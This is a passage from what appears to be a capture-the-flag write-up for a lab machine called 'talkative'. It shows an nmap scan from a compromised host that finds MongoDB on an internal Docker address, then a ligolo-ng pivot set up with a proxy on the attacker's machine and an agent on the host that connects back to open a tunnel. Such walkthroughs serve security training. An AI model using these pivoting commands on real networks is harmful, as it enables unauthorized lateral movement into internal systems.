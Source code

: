 I ran port scanning on 172.17.0.2, and it founds a single port open : 27017
27017 is [commonly used for](https://www.speedguide.net/port.php?port=27017) MongoDB.

```bash
saul@talkative:/dev/shm$ ./nmap 172.17.0.2 --min-rate 10000 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-03-14 14:33 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.000088s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 14.56 seconds
```

### Pivot using `ligolo`

Setup a new route to use `ligolo` :

```bash
┌──(kali㉿kali)-[/opt/ligolo]
└─$ ./ligolo-setup.sh 
Select the pivot stage (1: First pivot, 2: Second pivot): 1
Enter the network range to add to the routing table (e.g., 192.168.1.0/24): 172.17.0.0/24
[sudo] password for kali: 

Configuration completed. Use the following commands to run the Proxy and Agent:

First pivot setup:
Proxy command:
sudo /opt/ligolo-ng/proxy --selfcert
Agent command:
/opt/ligolo-ng/agent --connect <LISTENER_IP>:<LISTENER_PORT> --ignore-cert

Current routing table:
default via 192.168.45.2 dev eth0 proto dhcp src 192.168.45.133 metric 100 
10.10.10.0/23 via 10.10.14.1 dev tun0 
10.10.14.0/23 dev tun0 proto kernel scope link src 10.10.14.7 
10.129.0.0/16 via 10.10.14.1 dev tun0 
172.17.0.0/24 dev ligolo scope link linkdown 
192.168.45.0/24 dev eth0 proto kernel scope link src 192.168.45.133 metric 100 
```

Run `proxy` on kali :

```bash
┌──(kali㉿kali)-[/opt/ligolo]
└─$ ./proxy --selfcert   
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: 3C52C6CB488D6ED87F4F570FD744482370C6FB2F6C92C3C5C918CA9F8CD2A48F 
INFO[0000] Listening on 0.0.0.0:11601                   

ligolo-ng » INFO[0088] Agent joined.                                 id=9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93 name=saul@talkative remote="10.10.11.155:58884"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - saul@talkative - 10.10.11.155:58884 - 9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93
[Agent : saul@talkative] » start
INFO[0094] Starting tunnel to saul@talkative (9dc63cb7-36a5-41a9-8dfc-b9d384ed6e93) 
```